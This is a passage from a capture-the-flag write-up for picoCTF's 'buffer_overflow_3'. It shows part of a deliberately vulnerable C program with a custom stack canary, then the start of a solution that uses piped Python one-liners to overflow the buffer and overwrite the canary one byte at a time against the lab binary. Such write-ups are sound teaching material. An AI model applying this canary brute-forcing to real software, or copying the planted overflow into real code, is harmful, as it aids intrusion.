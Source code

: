 ```c
   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}

```

## Solution:

The program incorporates a custom canary, and if the canary has been overridden - outputs an error and exits. 

A legal session is as follows:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_3# ./vuln
How Many Bytes will You Write Into the Buffer?
> 3
Input> AAA
Ok... Now Where's the Flag?
```

If we blindly overrun the canary, we'll hit the error:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_3# { echo "100"; python -c 'print "A"*100';} | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> *** Stack Smashing Detected *** : Canary Value Corrupt!
```

However, since we get to choose the length of the buffer we write, we can overwrite just the first byte of the canary.

If we get it wrong, we'll see:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_3# { echo "33"; python -c 'print "A"*32 + "x"';} | ./vuln
How Many Bytes will You Write Into the Buffer?
> Input> *** Stack Smashing Detected *** : Canary Value Corrupt!
```
